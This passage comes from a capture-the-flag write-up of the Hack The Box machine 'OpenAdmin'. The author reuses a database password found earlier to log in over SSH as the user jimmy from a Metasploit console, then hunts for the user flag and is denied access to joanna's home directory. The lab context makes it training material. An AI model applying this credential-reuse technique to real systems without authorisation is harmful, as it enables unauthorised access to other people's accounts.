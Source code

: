 We found a database password to the local mysqli instance, one thing to note in HTB, if you find a password try it on other accounts, I will attempt to ssh to `jimmy` and `joanne`'s account with this database password:

```bash
msf5 exploit(custom/ona) > ssh jimmy@10.10.10.171
[*] exec: ssh jimmy@10.10.10.171

jimmy@10.10.10.171's password:
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jan 22 16:10:30 UTC 2020

  System load:  0.0               Processes:             110
  Usage of /:   49.0% of 7.81GB   Users logged in:       0
  Memory usage: 17%               IP address for ens160: 10.10.10.171
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

41 packages can be updated.
12 updates are security updates.


Last login: Thu Jan  2 20:50:03 2020 from 10.10.14.3
jimmy@openadmin:~$
```

Golden we are now `jimmy`

## Jimmy

Now that we have access to `jimmy`'s account lets see if we can print the `user.txt` flag.

```bash
jimmy@openadmin:~$ ls
jimmy@openadmin:~$ pwd
/home/jimmy
jimmy@openadmin:~$
```
Looks like the `user.txt` flag is not in `jimmy`'s home directory, let's look in `joanna`'s home folder.

```bash
jimmy@openadmin:~$ cd /home/joanna/
-bash: cd: /home/joanna/: Permission denied
jimmy@openadmin:~$
```
